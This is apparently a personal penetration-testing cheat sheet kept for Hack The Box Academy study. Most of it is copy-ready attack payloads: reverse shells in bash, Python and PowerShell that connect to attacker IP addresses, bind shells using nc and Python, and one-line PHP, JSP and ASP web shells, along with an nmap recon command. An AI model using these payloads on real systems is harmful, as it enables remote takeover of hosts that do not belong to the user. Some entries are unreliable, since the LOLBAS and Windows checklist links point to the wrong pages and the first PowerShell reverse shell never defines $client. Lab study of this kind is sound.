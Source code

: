# HTB ACADEMY Learning Personal Repo

## Recon

```bash
TARGET=;mkdir nmap;sudo nmap -vvv -A -sV -sC --min-rate=5000 $TARGET -p`sudo nmap -T5 -Pn --min-rate=5000 $TARGET -p-` -oA nmap/$TARGET && xsltproc nmap/$TARGET.xml -o nmap/$TARGET.html
``` 

## PrivEsc


### Linux_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

### Windows_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)  

### List Of Commands for PrivEsc
> [GTFOBins (Linux)](https://gtfobins.github.io/)  
> [LOLBAS (Windows)](https://gtfobins.github.io/)  

## Backdoor shells


### Reverse Shells

> [Villian (For Windows & Linux)](https://github.com/t3l3machus/Villain)

> Bash Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

> Python Shell

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
> Windows Powershell 

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Bind Shells

> Bash Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```


> Python Shell

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

> Windows Powershell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

### Upgrading TTY

+ We will first run below command:
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
+ After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
```bash
stty raw -echo;fg
#press 'Enter to continue'
```

+ Fix shell size:

```bash
export TERM=$TERM
stty row 38 columns 169 
```

### Web Shell


> Php Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

> Jsp Web Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

> Asp Web Shell

```asp
<% eval request("cmd") %>
```

## References URLs

> [GTFObins](https://gtfobins.github.io)
>
> [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)  
>
> [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  
>
> [HackTricks](https://book.hacktricks.xyz/welcome/readme)  
>
> [Ippsec (YouTube)](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)  
>
> [Ippsec (Topic Searcher)](https://ippsec.rocks/?#)  
>
> [VbScrub (YouTube)](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)  
>
> [STÖK (YouTube)](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg)  
>
> [LiveOverflow (YouTube)](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)  
>
> [0xdf hacks stuff(Blog)](https://0xdf.gitlab.io/)  
>
> [Under The Wire (Powershell Tutorial Website)](https://underthewire.tech/)
>
> [Over The Wire (Bash Tutorial Website)](https://overthewire.org/wargames/)
>
> [Magic Unicorn Downgrade Tool (For Windows)](https://github.com/trustedsec/unicorn)
